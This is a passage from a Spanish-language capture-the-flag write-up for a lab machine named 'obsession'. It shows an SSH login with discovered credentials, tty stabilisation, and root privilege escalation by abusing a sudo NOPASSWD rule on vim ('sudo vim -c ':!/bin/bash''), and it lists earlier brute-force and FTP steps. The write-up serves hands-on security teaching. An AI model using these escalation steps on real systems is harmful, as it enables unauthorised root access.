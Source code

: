 Así que hacemos login a *russoski@obsession* con la contraseña *iloveme*

```
❯ ssh russoski@obsession
russoski@obsession's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.12.25-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun 18 04:38:10 2024 from 172.17.0.1
russoski@c1489df97f06:~$
```

## Escalada de privilegios
Una vez dentro, para mayor comodidad con la terminal, realizamos el tratamiento de la tty

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Ahora, ejecutamos el comando ``sudo -l`` para listar los comandos que podemos ejectuar como sudo, y vemos que es el comando vim, de manera que escalamos privilegios abusando de el y dandonos una terminal como root.

```
russoski@c1489df97f06:~$ sudo -l
Matching Defaults entries for russoski on c1489df97f06:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on c1489df97f06:
    (root) NOPASSWD: /usr/bin/vim
russoski@c1489df97f06:~$ sudo vim -c ':!/bin/bash'

root@c1489df97f06:/home/russoski# whoami
root
root@c1489df97f06:/home/russoski# 
```

Y ya somos el usuario root!

## Lecciones vistas
1. Escaneos con **nmap**
2. Login *anonymous* en el puerto *FTP*
3. Ataque de fuerza bruta con **hydra**
4. Escalada de privilegios con **vim**